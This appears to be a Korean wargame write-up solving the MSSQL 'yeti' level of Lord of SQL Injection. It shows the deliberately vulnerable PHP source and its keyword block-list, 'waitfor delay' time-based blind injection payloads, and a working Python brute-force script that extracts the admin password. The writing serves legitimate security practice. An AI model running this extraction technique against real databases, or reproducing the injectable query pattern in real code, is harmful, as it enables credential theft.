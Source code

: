 ```yaml
---
title: "[Lord of SQL Injection] LoS - yeti 문제풀이"
date: 2019-07-29
draft: false
category: [wargame]
subcategories: [lord-of-sql-injection]
tags: [Write-up, Lord of SQL Injection]
---
```


이번 문제 이름은 `yeti`다.
소스코드를 짜서 풀어야 하는 `Blind SQL Injection` 문제였다.  

<!--more-->

코드는 다음과 같다.  

```php
-----------------------------------------------------------------
query : select id from prob_yeti where id='' and pw=''
-----------------------------------------------------------------

<?php
  include "./config.php";
  login_chk();
  $db = mssql_connect("yeti");
  if(preg_match('/master|sys|information|;/i', $_GET['id'])) exit("No Hack ~_~");
  if(preg_match('/master|sys|information|;/i', $_GET['pw'])) exit("No Hack ~_~");
  $query = "select id from prob_yeti where id='{$_GET['id']}' and pw='{$_GET['pw']}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  sqlsrv_query($db,$query);

  $query = "select pw from prob_yeti where id='admin'"; 
  $result = sqlsrv_fetch_array(sqlsrv_query($db,$query));
  if($result['pw'] === $_GET['pw']) solve("yeti"); 
  highlight_file(__FILE__);
?>
```

문제를 풀기 위해서는 `id='admin'`일 때 `pw`의 값을 알아야 한다.
그런데 `pw`의 값을 정확하게 알아야 하는데 내가 입력한 쿼리의 결과가 참인지 거짓인지 구분할 만한 무언가가 없다.
그래서 `Time based Blind SQL Injection`를 통해 `pw`의 값을 알아내기로 했다.
`MySQL`에서는 그냥 `sleep`를 사용하면 됬었는데, `MSSQL`에서는 `sleep`가 딱히 없는 것 같다.
그래서 `waitfor delay`를 사용했다.
`waitfor delay [지연시간]`의 형태로 사용하면 되는데, 이 때 `지연시간`은 `00:00:05`와 같이 `시:분:초`의 형태로 넣어 주어야 한다.
먼저 아래의 값을 입력 해 `waitfor delay`로 문제를 풀 수 있는지 테스트 해 보았다.  

```plain
?id=a&pw=1' if 1=1 waitfor delay '00:00:03' else waitfor delay '00:00:00' --
```

`if`문을 통해 `1=1`의 조건을 검사하고 해당 조건이 참이라면 3초 동안 지연을, 아니라면 지연을 하지 않는 쿼리문이다.
해당 쿼리 테스트 결과 아래와 같이 3초 지연된 결과를 받을 수 있었다.  

![](./images/los/yeti/yeti_01.png)  

이제 위의 쿼리에서 `1=1` 부분을 `pw`의 길이와 값을 알아내기 위한 쿼리로 바꾸면 문제를 풀 수 있을 것이다.
길이를 알아내기 위해서 아래와 같은 쿼리를 사용했다.  

```plain
id=a&pw=1' if ((select len(pw) from prob_yeti where id='admin') = 1) waitfor delay '00:00:03' else waitfor delay '00:00:00' -- 
```

`prob_yeti` 테이블에서 `id='admin'`인 행의 `pw 길이`를 `select`하고 만약 그 결과가 `3초 이상 지연`된다면 해당 값이 길이일 것이다.
또한 값을 알아내기 위해서는 아래와 같은 쿼리를 사용했다.  

```plain
id=a&pw=1' if ((select pw from prob_yeti where id='admin') like 'a%') waitfor delay '00:00:03' else waitfor delay '00:00:00' -- 
```

`like`을 사용했는데, 만약 `prob_yeti` 테이블에서 `id='admin'`인 행의 `pw`를 추출 했을 때 맨 첫번째 글자가 `a`라면 3초 지연 후 결과 값을 얻을 수 있을 것이다.
이를 바탕으로 아래와 같이 자동화 코드를 구현했다.  

```python
import requests
import time

flag = ""
length = 0

url = "https://los.rubiya.kr/chall/yeti_e6afc70b892148ced2d1e063c1230255.php?id=a&pw=1'"
session = dict(PHPSESSID = "YOUR SESSION ID")

print "[+] Start"

print "[+] Find length of the password"

for i in range(0, 40):
	try:
		start = time.time()
		query = url + " if ((select len(pw) from prob_yeti where id='admin') = " + str(i) + ") waitfor delay '00:00:03' else waitfor delay '00:00:00' -- "
		r = requests.post(query, cookies=session)
	except:
		print "[-] Error occur"
		continue
	if (time.time() - start) > 3:
		length = i
		break	

print "[+] Found length : ", length

print "[+] Find password"
	
for j in range(1, length + 1):
	for i in range(48, 123):
		try:
			start = time.time()
			query = url + " if ((select pw from prob_yeti where id='admin') like '" + flag + str(chr(i)) + "%') waitfor delay '00:00:03' else waitfor delay '00:00:00' -- "
			r = requests.post(query, cookies=session)
		except:
			print "[-] Error occur"
			continue

		if (time.time() - start) > 3:
			flag += chr(i)
			print "[+] Found " + str(j), ":", flag
			break

print "[+] Found password : ", flag
print "[+] End"
```

그 결과 아래와 같이 결과값을 얻을 수 있었다.  

```bash
$ python ex.py 
[+] Start
[+] Find length of the password
[+] Found length :  8
[+] Find password
[+] Found 1 : 6
[+] Found 2 : 64
[+] Found 3 : 642
[+] Found 4 : 6425
[+] Found 5 : 6425B
[+] Found 6 : 6425B7
[+] Found 7 : 6425B72
[+] Found 8 : 6425B725
[+] Found password :  6425B725
[+] End
```

따라서 알파벳을 소문자로 바꾸어 아래와 같이 입력하면 문제를 풀 수 있다.  

```plain
?pw=6425b725
```

---

```php
------------------------------------------------------------------------------------
query : select id from prob_yeti where id='' and pw='6425b725'
------------------------------------------------------------------------------------

YETI Clear!

<?php
  include "./config.php";
  login_chk();
  $db = mssql_connect("yeti");
  if(preg_match('/master|sys|information|;/i', $_GET['id'])) exit("No Hack ~_~");
  if(preg_match('/master|sys|information|;/i', $_GET['pw'])) exit("No Hack ~_~");
  $query = "select id from prob_yeti where id='{$_GET['id']}' and pw='{$_GET['pw']}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  sqlsrv_query($db,$query);

  $query = "select pw from prob_yeti where id='admin'"; 
  $result = sqlsrv_fetch_array(sqlsrv_query($db,$query));
  if($result['pw'] === $_GET['pw']) solve("yeti"); 
  highlight_file(__FILE__);
?>
```

---

```plain
YETI Clear!!
```